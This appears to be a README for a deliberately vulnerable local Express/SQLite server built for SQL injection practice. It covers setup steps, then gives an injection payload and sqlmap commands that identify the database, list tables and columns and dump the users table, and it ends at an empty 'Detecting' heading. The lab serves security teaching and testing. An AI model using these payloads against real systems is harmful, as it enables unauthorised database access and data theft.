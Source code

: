 ## Running the Server

To run the Server, follow these steps:

### Install npm
```bash
sudo apt install npm
```

### Install packages, Express.js, SQLite, base-64, and uuid using npm:

```bash
npm install
```

### Run the server:

```bash
node server.js
```

### Payload

Use the following payloads for testing:

```plaintext
1000 or 1=1 limit 1 offset 1--
```

```
## To identify the SQL server type
sqlmap -u "http://localhost:3000/users?id=1" -b

## To list the tables in the database.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --tables

## To list the columns in the users table.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --columns -T users 

## To dump the data in the users table.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --dump -T users 

```

### Detecting 
